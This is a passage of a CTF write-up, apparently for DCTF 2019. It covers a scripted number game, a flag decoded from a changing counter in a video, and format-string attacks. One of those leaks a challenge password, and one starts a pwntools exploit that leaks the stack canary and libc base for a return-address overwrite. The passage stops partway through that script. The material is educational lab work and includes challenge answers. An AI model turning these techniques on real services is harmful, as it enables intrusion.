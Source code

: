 ```python
        score = int(text.decode().partition('Total Score:  ')[2])
        print(f'score: {score}')
        for move in moves[::-1]:
            if score - move >= 0 and table[score - move] == 0:
                r.sendlineafter('Your move: ', str(move))
                break
        text = r.recvline()
        if b'Well done' in text:
            break
        text = r.recvline()
        if b'Well done' in text:
            break

for i in range(10):
    go()
```

### Eye Of The Tiger
We found the solution to this challenge at the last 20 minutes, and it's too late to solve it. QQ

This challenge is a tutorial video. We found that there was a adblock [chrome extension](https://github.com/gorhill/uBlock) installed on the author's computer, and it added a number continuously. 

![](https://i.imgur.com/xTs7lLG.png)

We noticed that this number only added either 1 or 2. We recorded the amount of change and converted them to 0 and 1. Then, we converted each 8 bits to an ascii character. The final result is the flag.

```
01000100010000110101010001000110011110110011000001100100
DCTF{0d
```



## PwnRev
### get-access
There was an format string vulnerability in the username. I used `%p` to dump the stack, and I found a string from `%30$p`. It's the password for this challenge.

```
username: test
password: $_TH1S1STH34W3S0M3P4sSw0RDF0RY0UDCTF2019_
```

### secret

Just use format string to leak `canary` and `libc base`; then use buffer overflow to write retrun address as one gadget.

```python
#!/usr/bin/env python

from pwn import *

ip = "206.81.24.129"
port = 1339

context.arch = "amd64"

r = remote(ip, port)
# r = process("pwn_secret")

raw_input("$")
r.sendlineafter(":", "_%15$p_%16$p_%17$p")
```